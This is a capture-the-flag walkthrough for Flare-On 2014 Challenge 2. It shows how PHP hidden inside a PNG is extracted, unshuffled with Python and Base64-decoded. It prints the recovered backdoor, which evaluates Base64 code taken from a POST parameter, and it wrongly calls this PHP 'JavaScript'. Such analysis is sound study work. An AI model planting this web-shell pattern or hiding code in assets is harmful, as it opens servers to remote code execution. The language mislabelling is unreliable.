





# Flare-On 2014 Challenge 2 Walkthrough: **`home.html`** Analysis

In this walkthrough, we’ll break down the process of analyzing the `home.html` file from the Flare-On challenge.  We will uncover the hidden content and extract the payload by utilizing Python scripts along with a hex editor.

## Table of Contents
- [Introduction](#introduction)
- [Step 1: Inspect `home.html` with Browser Developer Tools](#step-1-inspect-homehtml-with-browser-developer-tools)
- [Step 2: Examine `flare-on.png` for Embedded PHP Code](#step-2-examine-flare-onpng-for-embedded-php-code)
- [Step 3: Decode the PHP Code and Extract JavaScript](#step-3-decode-the-php-code-and-extract-javascript)
- [Step 4: The Flag](#step-4-the-flag)
- [References](#references)
---

## Introduction

In this challenge, the goal is to decode hidden content embedded in a PNG file via PHP code. The content is encoded in Base64 and contains escape sequences that must be resolved to reveal the final JavaScript code.

We'll walk through the steps of inspecting `home.html`, extracting PHP code from the `flare-on.png`, decoding Base64 strings, and decoding escape sequences to uncover the JavaScript payload.

---

## Step 1: Inspect `home.html` with Browser Developer Tools



1. **Open `home.html` in a browser**:
   - With developer tools enabled, open the `home.html` file.
   - Upon inspection, you'll notice that the HTML contains an image tag for `img/flare-on.png` and an embedded PHP script.
   - Specifically, you’ll see an unconventional PHP `include` statement inside a `<script>` tag, like this:

     

2. **What this indicates**:
   - This suggests that PHP code might be embedded in the `flare-on.png` image file. We’ll need to analyze the image to extract the PHP code and proceed with further decoding.
   - The next step involves inspecting `flare-on.png` in a hex editor to extract the embedded PHP code.

---

## Step 2: Examine `flare-on.png` for Embedded PHP Code

1. **Open `flare-on.png` in a hex editor**:
   - We open `flare-on.png` using a hex editor. The goal here is to search for embedded PHP code.
   - Search for the string `<?php` to locate where the PHP code begins in the image.

2. **Extract the PHP code**:
   - The PHP code starts at offset `0x19c4` in the file.

     
     
   - Copy the PHP code from this offset and save it to a new file called `extracted_php.php`.

3. **PHP Code Breakdown**:
    - Contains an array `$terms` with 80 characters and another array `$order` that defines the order in which these characters will be rearranged to form a string.
    - Uses the `$order` array to shuffle characters from the `$terms` array to create a string. The result is stored in the `$do_me` variable, which will be executed later as part of the hidden payload.
      
      
---

## Step 3: Decode the PHP Code and Extract JavaScript

1. **Python Conversion**:
   - After extracting the PHP code, we convert it into Python. The goal is to simulate the PHP array shuffling process and extract the resulting string (the `$do_me` variable).
   
   Here is a simplified breakdown of the Python script `converted_php.py`:
   
   ```python
   terms = ["..."]  # 80 characters from PHP code
   order = [...]  # Indices for the character order

   do_me = ''.join([terms[i] for i in order])
   print(do_me)
   ```

   The Python script prints the resulting value of `$do_me`, which contains a Base64-encoded JavaScript code.
   
      
   
3. **Base64 Decoding**:
   - We then use the Python script `convert_js.py` to decode the Base64-encoded JavaScript.
   - The process involves:
     - Decoding two Base64-encoded strings: one for `$_` and another for `$__`.
     - Combining both strings to form a partially obfuscated JavaScript code.

   - The Python script also decodes hexadecimal (`\x4F`) and decimal (`\97`) **escape sequences** in the decoded code. This results in the following final JavaScript code:

   ```javascript
   if (isset($_POST["a11DOTthatDOTjava5crapATflareDASHonDOTcom"])) { 
       eval(base64_decode($_POST["a11DOTthatDOTjava5crapATflareDASHonDOTcom"])); 
   }
   eval(base64_decode($_));
   eval($code);
   ```

   This JavaScript contains functionality to execute Base64-decoded content received through a POST request, which is a typical web-based payload.

---

## Step 4: The Flag

The de-obfuscated JavaScript reveals an important action: it checks for a specific POST request and decodes its Base64 content. This can be used to trigger further actions on the server or extract sensitive information.

  - **Flag:**
    ```
    Original: a11DOTthatDOTjava5crapATflareDASHonDOTcom
    Readable: a11.that.java5crap@flare-on.com
    ```

---

## References
- **Hex Editor**: Allows you to see the raw binary content of a file, making it possible to find hidden data or scripts embedded within files.

- **Browser Developer Tools**: Provide an easy way to explore the structure and content of a web page.

- **Base64 Decoder**: Often used to obfuscate data, and decoding it reveals the original payload.

- **Escape Sequence Decoder**: The final step involved decoding hexadecimal and decimal escape sequences.
   - These sequences represent characters encoded in a way that obfuscates the code further, and resolving them makes the code readable and executable.
